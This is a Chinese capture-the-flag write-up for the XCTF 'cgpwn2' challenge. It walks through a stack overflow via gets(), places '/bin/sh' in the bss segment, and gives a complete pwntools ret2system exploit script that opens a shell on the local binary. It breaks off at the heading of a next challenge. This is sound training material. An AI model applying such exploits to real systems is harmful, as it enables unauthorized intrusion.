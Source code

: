 gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 检查保护机制，没有canary，可以溢出。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/cgpwn2/pic/1.png)

- gets函数不限制输入的长度，这里可以溢出。
- 利用前面所说的方法所处溢出点的位置

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/cgpwn2/pic/2.png)

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/cgpwn2/pic/3.png)

- 溢出点是42个字节
- 在找关键字符串的时候没有发现 bin/sh 。所以我们需要将bin/sh写到我们可以访问的地址中去。我们可以在输入name的时候把 bin/sh写进去。name位于bss段，bss段保存全局变量，加载地址不会因为地址随机化的开启而有所变化。
- 将 system 的地址写到 hello 函数的返回地址中，同时将之前 bin/sh 的地址也写到栈中，作为system函数的参数。构造如下payload：

```
payload = 42*'a' + p32(sys_addr) + p32(bss_addr)
```

完整exp如下：

```python
from pwn import *
elf = ELF("./cgpwn2") 
p = process("./cgpwn2")
bss_addr = 0x0804A080
p.recv() 
p.sendline("/bin/sh\x00")
cnt = 42
sys_addr = elf.symbols['system']
p.recv() 
rop = '' 
rop += cnt * 'a' 
rop += p32(sys_addr) 
rop += 'a'*4 
rop += p32(bss_addr)
p.sendline(rop) 
p.interactive() 
```

# 攻防世界: int_overflow

## **[目标]**

利用整数溢出，栈溢出，ROP

## **[环境]**
